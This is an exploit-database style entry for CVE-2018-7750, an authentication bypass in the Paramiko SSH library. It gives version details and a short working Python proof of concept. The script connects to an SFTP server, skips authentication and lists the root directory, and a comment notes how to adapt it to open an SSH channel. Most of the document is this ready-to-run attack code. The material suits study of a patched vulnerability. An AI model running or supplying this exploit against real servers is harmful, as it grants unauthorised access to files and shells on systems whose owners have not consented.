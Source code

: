 EXP
---

    # Exploit Title: Paramiko 2.4.1 - Authentication Bypass
    # Date: 2018-10-27
    # Exploit Author: Adam Brown
    # Vendor Homepage: https://www.paramiko.org
    # Software Link: https://github.com/paramiko/paramiko/tree/v1.15.2
    # Version: < 1.17.6, 1.18.x < 1.18.5, 2.0.x < 2.0.8, 2.1.x < 2.1.5, 2.2.x < 2.2.3, 2.3.x < 2.3.2, and 2.4.x < 2.4.1
    # Tested on: Multiple
    # CVE : CVE-2018-7750

    # This PoC is based on discussions found at the following github issue:
    # https://github.com/paramiko/paramiko/issues/1175
    # TLDR, Paramiko doesn't check if the client has completed the authentication step
    # before allowing the client to open channels. The PoC below connects to an SFTP
    # server, and lists the root directory without authenticating. Slight modification
    # is required if you want to open an SSH channel.

    #!/usr/bin/python
    import paramiko

    host = '127.0.0.1'
    port = 22

    trans = paramiko.Transport((host, port))
    trans.start_client()

    # If the call below is skipped, no username or password is required.
    # trans.auth_password('username', 'password')

    sftp = paramiko.SFTPClient.from_transport(trans)
    print(sftp.listdir('/'))
    sftp.close()